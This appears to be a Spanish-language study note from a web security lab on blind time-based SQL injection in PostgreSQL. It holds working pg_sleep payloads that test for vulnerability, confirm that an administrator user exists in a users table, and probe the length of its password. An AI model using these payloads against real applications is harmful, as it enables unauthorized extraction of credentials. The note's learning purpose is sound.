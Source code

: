 # Blind SQL injection with time delays

Se puede inyectar codigo con delays de tiempo cambia mucho para cada base de datos

> Las técnicas para desencadenar un retraso de tiempo son muy específicas para el tipo de base de datos que se utiliza. En Microsoft SQL Server, una entrada como la siguiente se puede usar para probar una condición y desencadenar un retraso dependiendo de si la expresión es verdadera:


```
TrackingId=x'||pg_sleep(10)--

```


# Blind SQL injection with time delays and information retrieval 

# Checar si el vulnerable al Ataque Paso 1

Para probar si es vulnerable a este tipo de ataque se pueden utilizar los condicionales

```
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
'SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
'SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

# Orden de ejecucion en SQL Paso 2 ( para probar existencia de tablas)

> https://programacion.net/articulo/el_orden_de_ejecucion_de_las_queries_en_sql_1032

El orden en que se ejecuta una sentencia SQL nos puede ayudar a checar si existen usuarios y tablas. La siguiente tabla muentra como se va ejecutando una sentencia SQL la primera intruccion que se ejecuta es el from

## Logical Query Processing Phase

Cuando escribes una serie de comandos dentro de una query sql, estos comandos se dividen mediante una fase de procesamiento lógico. Cada fase genera una serie de tablas virtuales que alimentan a la siguiente fase. Por supuesto, dichas tablas virtuales no son visibles por los administradores. Las fases y su orden de ejecución son las siguiente

```
1. FROM
2. ON
3. OUTER
4. WHERE
5. GROUP BY
6. CUBE | ROLLUP
7. HAVING
8. SELECT
9. DISTINCT
10 ORDER BY
11. TOP
```


## Checar Tablas y Sacar informacion 

```
'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

Por el Orden de ejecucion

```

'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END from users where username='administrator'--;

```

# Extraer los datos Paso 3

Sabiendo que tienemos un password utilizamos el LENGTH()

```
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
